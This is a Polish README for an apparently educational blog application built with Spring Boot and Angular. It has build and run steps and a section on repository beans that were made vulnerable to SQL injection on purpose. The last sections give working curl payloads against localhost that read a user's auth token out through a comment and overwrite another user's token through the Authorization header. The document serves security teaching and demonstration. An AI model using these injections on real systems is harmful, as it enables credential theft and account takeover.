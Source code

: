 # Blog application

## Jak uruchomić?

Aplikacja składa się z dwóch modułów - `application/server` zawierający backend w `Spring Boot` oraz `application/frontend` zawierający aplikację frontendową opartą o `Angular`.

Projekt skonstruowany jest w taki sposób, że `application/frontend` jest zależnością do `application/server`. Zatem budując serwer, najpierw musi zostać zbudowany frontend. Wszystko jest już ze sobą połączone.


1. Aby uruchomić aplikację wystarczy użyć taska:
    ```
    ./gradlew bootRun
    ```
    
    > W przypadku problemów z cache'owaniem plików frontendowych, można użyć dodatkowo taska `clean`:
    > ```
    > ./gradlew clean bootRun
    > ```
    
    Po wydaniu polecenia w konsoli widać:
    
    ```
    2021-05-03 16:32:50.045  INFO 41222 --- [           main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService 'applicationTaskExecutor'
    2021-05-03 16:32:50.096  INFO 41222 --- [           main] o.s.b.a.w.s.WelcomePageHandlerMapping    : Adding welcome page: class path resource [static/index.html]
    2021-05-03 16:32:50.240  INFO 41222 --- [           main] o.s.s.web.DefaultSecurityFilterChain     : Will secure any request with [org.springframework.security.web.context.request.async.WebAsyncManagerIntegrationFilter@71a7cf7c, org.springframework.security.web.context.SecurityContextPersistenceFilter@447630c4, org.springframework.security.web.header.HeaderWriterFilter@951e911, org.springframework.security.web.authentication.logout.LogoutFilter@62ff14cd, pl.kul.blog.infrastructure.authentication.filters.pwd.UsernameAndPasswordAuthenticationFilter@7f49df25, pl.kul.blog.infrastructure.authentication.filters.token.TokenAuthenticationFilter@5b29d699, org.springframework.security.web.savedrequest.RequestCacheAwareFilter@4c8afba, org.springframework.security.web.servletapi.SecurityContextHolderAwareRequestFilter@5c65fa69, org.springframework.security.web.authentication.AnonymousAuthenticationFilter@5a5a973c, org.springframework.security.web.session.SessionManagementFilter@7022fb5c, org.springframework.security.web.access.ExceptionTranslationFilter@4d6027be, org.springframework.security.web.access.intercept.FilterSecurityInterceptor@3d605657]
    2021-05-03 16:32:50.274  INFO 41222 --- [           main] o.s.b.w.embedded.tomcat.TomcatWebServer  : Tomcat started on port(s): 8080 (http) with context path ''
    2021-05-03 16:32:50.281  INFO 41222 --- [           main] pl.kul.blog.BlogApplication              : Started BlogApplication in 2.51 seconds (JVM running for 2.748)
    <============-> 93% EXECUTING [43s]
    > :application:server:bootRun
    ```
    Zostaje uruchomiony serwer HTTP, który nasłuchuje na porcie 8080.

2. Następnie należy wejść na stronę http://localhost:8080/ i założyć nowego użytkownika
   
    > Zarówno zakładanie użytkownika jak i logowanie zajmuje kilka sekund - to celowy zabieg `Spring`'a
3. Volia!

## Budowanie pliku wykonywalnego

Został użyty plugin `org.beryx.runtime`, który definiuje dodatkowy task o nazwie `jpackage`. Task ten wykorzystuje pod spodem [narzędzie dostępne w JDK (>= 15) `jpackage`](https://openjdk.java.net/jeps/392). Narzędzie umożliwia utworzenie kopii maszyny wirutalnej (klient uruchamiający aplikację nie musi mieć swojego własnego `JRE`) i załącza odpowiednie skrypty uruchamiające (per platforma).

Aby zbudować plik wykonywalny, należy użyć polecenia:

```
./gradlew jpackage
```

Wówczas w katalogu `application/server/build/jpackage` powstanie katalog, który zawiera plik `.exe` oraz wszystkie wymagane zależności. Cały ten katalog można spakować i traktować jako aplikację w wersji `portable`.

## Znane problemy/rzeczy do zrobienia

* Najwyższy priorytet
  * [ ] Diagramy prezentujące flow uwierzytelniania użytkownika
* Nice to have
  * [ ] Po odświeżeniu strony/zamknięciu karty użytkownik musi się zalogować. Powodem jest przechowywanie tokena w pamęci, zamiast np. `localStorage`
  * [ ] Brak obsługi błędów połączenia HTTP. Jeżeli np. podczas logowania (`POST /authentication/signin`) poleci błąd 4xx, wówczas na frontendzie "nic nie widać"
* Done
    * Najwyższy priorytet
        * [x] Brak możliwości dodawania nowych postów i komentarzy (trzeba zaimplementować)
    * Nice to have
        * [x] Backend używa bazy danych H2 uruchamianej w pamięci - oznacza to, że po każdym restarcie serwer ma czystą bazę. Trzeba dodać konfigurację umożliwiającą zmianę trybu działania H2 na opartą o plik + możliwość konfiguracji ścieżki.

## SQL Injection

W aplikacji jest zestaw bean'ów odpowiadających za zapis do bazy. Te, które nosza nazwę `Vulnerable*Repository` są podatne na atak `SQL Injection`. Aby uruchomić aplikację z zestawem bean'ów wrażliwych na ten atak, należy aktywować konkretne profile:

* `token-auth-check-vulnerable-to-sql-injection`
* `comments-vulnerable-to-sql-injection`

> Widok zarządzający aplikacją umożliwia włączenie w/w profili.

Jeżeli konkretny profil dotyczący konkretnej funkcjonalności jest aktywny, wówczas ładowany jest odpowiedni zestaw bean'ów (wszystko zawarte wewnątrz `RepositoriesConfiguration`).

## Wyciągnięcie dowolnej pojedynczej wartości z bazy i zapisanie jej w komentarzu

> Test integracyjny `SqlInjection_exploitAddComment` umożliwia symulację tej podatności

```bash
curl 'http://localhost:8080/api/comments/4a2efc6b-ffd7-4b13-b5cb-9913ac47dd17' \
    -X 'PUT' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token pxsAnl/LzCqynQTzGZg+vPISd54tOxtHWadre9zdXN2y+aWKrv1Cpk6PBMMahUeHj2AJUs8fSRGJIQczb83Erg==' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Content-Type: application/json' \
    -H 'Sec-GPC: 1' \
    -H 'Origin: http://localhost:8080' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --data-binary '{"addToPostId":"f0e69366-5fb7-42c5-ae77-a371043728d6","content":"'\'' + (select token from user_device where user_account_id = (select id from user_account where username = '\''test'\'')) + '\''"}' \
    --compressed
```

## Aktualizacja tokena dowolnego użytkownika

Ustawienie tokena użytkownikowi `test`:
```
curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token '\''; ;update user_device set token='\''sql-injected'\'' where USER_ACCOUNT_ID = (select id from USER_ACCOUNT where USERNAME = '\''test'\'') -- ' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```

Pobranie postów ze zmienionym tokenem:
```
    curl 'http://localhost:8080/api/posts' \
    -H 'Connection: keep-alive' \
    -H 'Accept: application/json' \
    -H 'Authorization: token sql-injected' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36' \
    -H 'Sec-GPC: 1' \
    -H 'Sec-Fetch-Site: same-origin' \
    -H 'Sec-Fetch-Mode: cors' \
    -H 'Sec-Fetch-Dest: empty' \
    -H 'Referer: http://localhost:8080/' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    --compressed
```
